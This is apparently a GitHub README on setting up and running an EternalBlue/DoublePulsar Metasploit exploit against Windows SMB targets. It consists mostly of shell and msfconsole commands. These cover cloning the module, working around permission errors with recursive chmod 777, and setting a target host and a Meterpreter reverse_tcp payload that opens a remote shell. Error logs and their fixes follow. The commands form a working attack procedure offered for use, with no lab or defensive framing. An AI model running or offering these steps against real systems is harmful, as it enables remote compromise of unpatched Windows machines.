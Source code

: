 #### Eternalblue-Doublepulsar-Metasploit Exploit Setup and Usage

This repository contains the Metasploit module and dependencies to run the Eternalblue Doublepulsar exploit on Windows targets.

---

#### Prerequisites

- Kali Linux (or compatible)
- Metasploit Framework installed
- Wine installed and configured
- Root privileges to manage files and permissions

---

#### Full Setup & Usage (Terminal Commands)

```
# Clone the Eternalblue-Doublepulsar-Metasploit repository
git clone https://github.com/your-repo/Eternalblue-Doublepulsar-Metasploit.git /root/Eternalblue-Doublepulsar-Metasploit

# Fix permissions for deps and wine drive_c folder
chmod -R 777 /root/Eternalblue-Doublepulsar-Metasploit/deps/
chmod -R 777 /root/.wine/drive_c/

# Create the eternal11.dll payload file and give full permissions
touch /root/.wine/drive_c/eternal11.dll
chmod 777 /root/.wine/drive_c/eternal11.dll

# If permission denied errors persist, copy deps folder to a new location with full permissions
mkdir -p /opt/ebdp/deps
cp -r /root/Eternalblue-Doublepulsar-Metasploit/deps/* /opt/ebdp/deps/
touch /opt/ebdp/eternal11.dll
chmod -R 777 /opt/ebdp
```
# Start Metasploit Framework
msfconsole

### Inside msfconsole:

```

use exploit/windows/smb/eternalblue_doublepulsar

set RHOSTS <TARGET_IP>          # Example: 192.168.1.100
- Note: LHOST is omitted here as per your setup (add if needed)
set DOUBLEPULSARPATH /opt/ebdp/deps/
set ETERNALBLUEPATH /opt/ebdp/deps/
set WINEPATH /opt/ebdp/

set PAYLOAD windows/x64/meterpreter/reverse_tcp
set PAYLOADFILE lass.exe

run
```

#### Issues Faced & Solutions

* Permission Denied on XML Files
```
cp: cannot stat '/root/Eternalblue-Doublepulsar-Metasploit/deps//Eternalblue-2.2.0.Skeleton.xml': Permission denied
sed: can't read /root/Eternalblue-Doublepulsar-Metasploit/deps//Eternalblue-2.2.0.xml: Permission denied
```
- Occurred despite setting 755 permissions. Fixed by changing recursively to 777:
```
chmod -R 777 /root/Eternalblue-Doublepulsar-Metasploit/deps/
```
- Permission Denied Writing Payload DLL
```
Exploit failed: Errno::EACCES Permission denied @ rb_sysopen - /root/.wine/drive_c/eternal11.dll
```
- Fixed by creating the file and setting full permissions:
```
touch /root/.wine/drive_c/eternal11.dll
chmod 777 /root/.wine/drive_c/eternal11.dll
chmod 777 /root/.wine/drive_c/
```

#### Persisting Permission Errors
- Despite fixes above, errors persisted. Solution was to copy the dependencies and DLL to a new directory with full permissions:
```
mkdir -p /opt/ebdp/deps
cp -r /root/Eternalblue-Doublepulsar-Metasploit/deps/* /opt/ebdp/deps/
touch /opt/ebdp/eternal11.dll
chmod -R 777 /opt/ebdp
```